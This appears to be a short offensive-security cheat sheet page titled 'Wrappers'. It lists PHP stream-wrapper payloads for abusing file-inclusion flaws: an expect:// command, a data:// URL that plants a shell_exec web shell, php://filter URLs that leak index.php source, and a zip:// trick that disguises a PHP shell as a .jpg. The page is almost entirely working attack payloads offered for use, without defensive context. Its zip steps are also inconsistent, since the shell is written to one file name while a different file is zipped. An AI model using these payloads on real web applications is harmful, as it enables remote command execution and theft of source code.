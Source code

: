 ```yaml
---
title: "Wrappers"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


### PHP WRAPPER EXPECT
```
http://ex.com/index.php?page=expect://whoami
```
### PHP WRAPPER DATA://
```
http://www.ex.com/index.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```
### PHP WRAPPER FILTER://
```
http://ex.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://ex.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
### PHP WRAPPER ZIP://
```
echo "<?php \$_GET['param1'](\$_GET['param2']); ?>" > shell.php
zip -0 payload.zip payload.php
mv payload.zip shell.jpg;
rm payload.php
```
```
http://ex.com/index.php?page=zip://shell.jpg%23payload.php
```